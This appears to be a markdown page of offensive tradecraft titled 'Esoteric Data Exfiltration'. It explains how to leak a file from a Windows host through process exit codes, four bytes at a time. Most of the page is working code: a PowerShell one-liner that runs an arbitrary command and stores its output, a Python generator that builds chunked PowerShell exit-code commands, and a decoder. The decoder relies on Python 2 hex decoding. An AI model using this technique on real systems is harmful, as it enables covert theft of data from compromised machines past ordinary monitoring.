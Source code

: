 # Esoteric Data Exfiltration

This is a dumping for less common but still quite interesting exfiltration methods.  These probably won't be too useful in anything but the most specific instances, but who knows, they might fit what you're looking for.

## Error Codes

We can exfiltrate arbitrary data via literally nothing but error-codes.  Here I'll walk through the stages to set up and test this for exfiltrating some file.

An error code can have a maximum length of 32 bits, or 4 bytes.  We can therefore encode 4 arbitrary bytes within the return of a windows command.

We have data stored within`$env:temp/merror.txt`  and the only parameter we need to know is it's length.  We can run an arbitrary command, store it's output in the file and find out its length by running the following:

```powershell
$command = (Invoke-Command -ScriptBlock {{{0}}} | Out-String).TrimStart().TrimEnd(); $command | Out-File $env:temp/merror.txt -encoding ASCII ;exit $command.length'.format(command)
```

We now have to generate our commands to split up the file and return the data.  The following script will return an iterator that will yield commands to run on the remote machine, which will return error codes.

```py
def error_exfil(output_length):
    output_length = int(output_length)
    for start in range(0, int(output_length), 4):
        if (output_length - start) < 4:
            amount_to_fetch = output_length-start
        else:
            amount_to_fetch = "4"
        run_cmd = '$fs = Get-Content $env:temp/merror.txt -Encoding Byte -ReadCount 0; $bytearray = $fs[{0}..{1}]; $hex = [System.BitConverter]::ToString($bytearray) -replace \'-\',\'\';\
echo $hex; exit ([convert]::ToInt32($hex, 16));'.format(start, int(start)+int(amount_to_fetch)-1)
        yield run_cmd
```

Decoding them on the other end is as simple as:

```py
def decode_error(errorval):
    val = hex(int(errorval))[2:]
    if len(val)%2 !=0:
        val = '0'+ val

    return val.decode('hex')
```



